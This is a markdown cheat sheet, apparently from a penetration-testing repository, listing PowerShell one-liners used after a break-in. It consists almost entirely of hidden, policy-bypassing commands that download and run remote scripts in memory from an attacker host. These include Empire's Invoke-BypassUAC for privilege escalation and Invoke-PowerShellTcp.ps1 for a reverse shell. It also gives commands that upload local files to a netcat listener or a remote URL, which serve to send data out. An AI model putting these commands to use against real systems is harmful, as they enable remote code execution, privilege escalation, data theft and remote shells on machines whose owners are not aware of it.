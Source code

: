 ## Start up WebServer

## Run script in memory:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE')

#EXAMPLE
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'

# In PowerShell:
IEX((New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE'))
```
-----------------------------------------------------------------------------------------------------------------------------------------------------
# Download File:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')

# In PowerShell:
(New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')
```

-----------------------------------------------------------------------------------------------------------------------------------------------------
# Upload File:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')

# In PowerShell:
(New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')
```

-----------------------------------------------------------------------------------------------------------------------------------------------------
# If you can't copy over SMB
### On Local Box
```sh
nc -lnvp 443 > Out.File
```
### On Windows Box
```ps
Invoke-RestMethod -Uri http://<LocalIPAddress>:443/<FILE> -Method Post -InFile <LocalFile>
```
-----------------------------------------------------------------------------------------------------------------------------------------------------

[+] EXTRA
## Upgrade PSH to 64-bit shell
```ps
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://<LocalIPAddress>:<PORT>/Invoke-PowerShellTcp.ps1')
#HIDDEN
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.Webclient).DownloadString('http://<LocalIPAddress>:<PORT>/Invoke-PowerShellTcp.ps1')
```
